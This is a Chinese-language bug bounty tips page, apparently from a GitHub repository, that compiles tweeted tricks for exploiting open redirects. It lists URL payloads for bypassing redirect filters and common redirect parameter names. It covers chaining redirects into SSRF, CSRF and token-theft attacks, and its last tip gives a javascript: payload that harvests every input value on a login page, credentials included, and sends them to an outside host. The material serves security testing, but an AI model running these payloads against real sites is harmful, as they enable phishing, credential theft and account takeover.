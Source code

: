 # Open Redirect BugBountyTips

### 开放式重定向 (Open Redirect):

1.[@LooseSecurity](https://twitter.com/LooseSecurity/status/1164579967184887809)：

```bash
file.php?url=/admin/
重定向到website.com/admin/
输入网址file.php?url=@google.com
现在是website.com@google.com重定向到http://google.com.
```

2.[@k33r0k](https://twitter.com/k33r0k/status/1081589568405671936)：在某些情况下，您可以使用％0d％0a并在主网址上直接使用两个'/'进行'Open Redirect'.

```s
http://victim//%0d%0ahttp://google.com/
```

3.[@neeraj_sonaniya](https://twitter.com/neeraj_sonaniya/status/1086911248845828101):尝试更改协议以绕过开放式重定向保护:

```s
http://example.com -> ftp://example.com
```

4.@LooseSecurity:保留您的开放式重定向。如果遇到SSRF，则可以使用开放式重定向来绕过same-origin filters。如果他们只是阻止localhost，则在您自己的网站上创建重定向。

5.@sandh0t:始终检查重定向页面（302/301）的内容。特别是在需要验证的情况下。
并记住，重定向页面是测试CRLF注入和打开重定向等问题的好地方。

6.[@LooseSecurity](https://twitter.com/LooseSecurity/status/1179149212874952704):对于开放式重定向，请尝试使用以下字符："。"网站认为它正在重定向到站点上的页面，但浏览器将其转换为"。"。从而完成重定向。

```bash
Usage: ?url=//google。com
Goes to: https://google.com
URL encoded: %E3%80%82
```

7.@kunalp94:"/%0d/domain_address" 是帐户接管窃取令牌中的最佳绕过方式之一。

8.[@PD_5ive](https://twitter.com/PD_5ive/status/1205402391526486017):遇到的一些打开重定向的参数，一些可能导致XSS：

```url
RedirectUrl
Return
ReturnUrl
ClientSideUrl
failureUrl
ru
redir
relayState
fallbackurl
clickurl
return_to
url
goto
dest_url
urlReturn
referer
appUrlScheme
```

9.[@0xw2w](https://twitter.com/0xw2w/status/1248688218326863872):如果有一个GET请求，开发人员在其中添加了基于referer-based的CSRF保护，请对该网址使用Open Redirect，以在referer标头中获得列入白名单的网站。如果您有POST请求，请尝试将方法更改为GET。

10.[@darklotuskdb](https://twitter.com/darklotuskdb/status/1260837629718740992):通过HTTP污染攻击打开重定向：

```bash
URL -> sub.dom-co/go/https/dom-co

1) sub.dom-co/go/https/dom-co.evil-co/
-> 404

2) sub.dom-co/go/https/dom-co/go/https/dom-co.evil-co/
-> Redirected To Evil website
```

11.[@xhzeem](https://twitter.com/xhzeem/status/1268098531186728963):当您在登录页面上通过开放重定向找到XSS时，只需捕获凭据并劫持它们,PoC：

```js
javascript:inpts=document.querySelectorAll('input');info='';for(i=0;i<inpts.length;i++){info+=','+inputs[i].value};location.href='https://xhze.em/?'+info
```



